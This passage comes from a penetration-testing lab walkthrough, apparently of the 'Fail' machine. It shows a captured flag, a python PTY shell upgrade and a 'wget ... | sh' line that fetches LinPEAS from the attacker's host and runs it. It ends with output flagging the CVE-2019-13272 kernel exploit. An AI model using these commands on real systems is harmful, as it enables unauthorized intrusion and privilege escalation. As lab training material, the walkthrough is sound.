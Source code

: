 Great! We made it in. I look for the access flag and find it in user `/home`:

```
$ pwd
/home
$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Jan 21  2021 .
drwxr-xr-x 18 root root 4096 Nov 19  2020 ..
drwxr-xr-x  3 fox  fox  4096 Mar 16 13:41 fox
-rw-r--r--  1 fox  fox    33 Mar 16 13:33 local.txt
$ cat local.txt
0514d88efa70ef50d59d7339fd2c6659
```

## Privilege Escalation

We get ourselves a better shell in the victim box:

```
$ which python
/usr/bin/python
$ python -c 'import pty; pty.spawn("/bin/bash")'
fox@fail:/home$ 
```

Time for LinPEAS! The victim machine cannot talk to the internet so we download LinPEAS to Kali and serve it from there:

```
┌──(kali㉿kali)-[~/offsec/fail]
└─$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/fail]
└─$ python -m http.server 80                                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Dowload it in the victim box and pipe it to `sh`:

```
fox@fail:/home$ wget -O- http://192.168.45.172/linpeas.sh | sh
--2024-03-16 13:58:05--  http://192.168.45.172/linpeas.sh
Connecting to 192.168.45.172:80... connected.
HTTP request sent, awaiting response... 200 OK
    (... output ...)
```

The most promising results are:

- A highly probably kernel exploit

```
[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```
